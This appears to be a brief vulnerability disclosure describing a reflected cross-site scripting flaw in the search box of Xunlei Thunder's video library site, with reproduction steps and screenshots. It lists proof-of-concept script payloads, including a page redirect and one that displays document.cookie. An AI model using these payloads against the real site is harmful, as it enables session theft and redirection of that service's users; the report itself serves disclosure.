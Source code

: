 Install the latest version of thunder. On his home page, you can view some movie from a buttom named "影视库". Then you'll find that is redirect to https://yingshiku.xunlei.com/.   

![avatar](home.png)  

So open the link:https://yingshiku.xunlei.com/ 
There is a serach box in this link, which existed XSS vulnerability.  
just enter like: <script>alert(1)</script>  

![avatar](1.png)  

or enter: <script>window.location="http://www.baidu.com"</script>  OR   <script>alert(document.cookie)/script>
![avatar](cookie.png)  
